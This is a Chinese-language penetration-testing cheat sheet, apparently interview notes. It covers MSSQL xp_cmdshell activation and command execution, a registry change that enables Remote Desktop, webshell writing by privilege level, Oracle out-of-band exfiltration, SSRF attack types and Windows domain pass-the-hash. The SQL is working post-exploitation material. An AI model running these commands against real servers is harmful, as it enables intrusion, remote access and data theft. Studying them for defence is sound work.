 #### 启用xp_cmdshell（要求数据库支持堆叠查询）：
```SQL
EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll' --
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
//1为开启，0为关闭.
```
如提示：拒绝了对对象 'sp_addextendedproc' (数据库 'mssqlsystemresource'，架构 'sys')的 EXECUTE 权限。或提示'用户没有执行此操作的权限。'说明权限不够。如果执行不成功，那么可能xplog70.dll文件被删除了，我们可以上传一个xplog70.dll文件，然后进行恢复，语句如下：
```SQL
exec sp_addextendedproc 'xp_cmdshell','c:xplog70.dll'
```

#### 利用xp_cmdshell执行系统命令：
```SQL
exec master..xp_cmdshell "系统命令" --
```
1. sa权限
使用xp_cmdshell创建windows用户，远程登录。
没开远程桌面使用注册表修改存储过程
```SQL
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentContrpreSet\Contrpre\Terminal Server','fDenyTSConnections','REG_DWORD',0;--
```

2. db_owner权限
* 获取web目录，利用xp_dirtree存储过程
* 差异备份写入shell
* 日志备份写shell

3. public权限
* 查数据，登后台突破
* 遍历服务器目录及文件

### Oracle
oracle能不能带外？可以
1. 使用UTL_HTTP.REQUEST accesslog/一个脚本接受数据
2. UTL_INADDR.get_host_addr dnslog
3. SYS.DBMS_LDAP.INIT dnslog
linux环境下数据库能不能带外,当时我说了原理用的ipc那个共享，想想windows下才有这个，最后测试linux下不行，当时回答问题太急了，想都没想说可以。。

### SSRF
有哪几种攻击方式
1. 内网探测
2. 使用一些协议可以带payload打内网的服务
3. dos攻击

这个建议看看猪猪侠的《一个只影响有钱人的漏洞》

### Windows域环境下内网渗透
具体的不写了，这里我下次单独总结一下，提一下一个地方，抓取hash后无法破解可以使用msf或者psexec进行hash注入

Kerberous协议,看着个吧[敞开的地狱之门：Kerberos协议的滥用](http://www.freebuf.com/articles/system/45631.html)

